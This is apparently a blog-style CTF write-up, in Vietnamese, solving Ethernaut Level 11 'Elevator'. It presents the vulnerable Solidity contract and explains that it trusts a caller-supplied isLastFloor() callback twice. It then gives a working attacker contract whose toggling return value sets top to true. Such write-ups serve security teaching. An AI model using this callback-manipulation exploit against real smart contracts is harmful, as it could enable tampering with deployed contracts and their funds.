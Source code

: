 ```yaml
---
title: "[Ethernaut CTF] Level 11: Elevator"
date: 2024-01-20 14:09:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel11.svg
---
```

# Level 11: Elevator
##  Difficulty: ★★☆☆☆

## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
## Target
Tìm cách để lên được tầng cuối (hay nói cách khác là tìm cách để set biến ``top``= true)

## Phân tích
- Ở đây, chúng ta thấy hàm ``isLastFloor()`` được gọi hai lần => ta chỉ cần override lại hàm ``isLastFloor()``, gọi hàm lần thứ 1 để set top thành false, lần 2 để set thành true => pass
```solidity
 if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
 
```
## Solution
- Compile và deploy contract này trên remix,sau đó gọi hàm gotoTop với address là contract address của level

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.0 <0.9.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {
    bool public last = true;

    function isLastFloor(uint) override external returns (bool) {
        last = !last;
        return last;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(10);
    }
}
```

- Check lại biến top
```javascript
await contract.top()
true
```
**Submit** -> Done



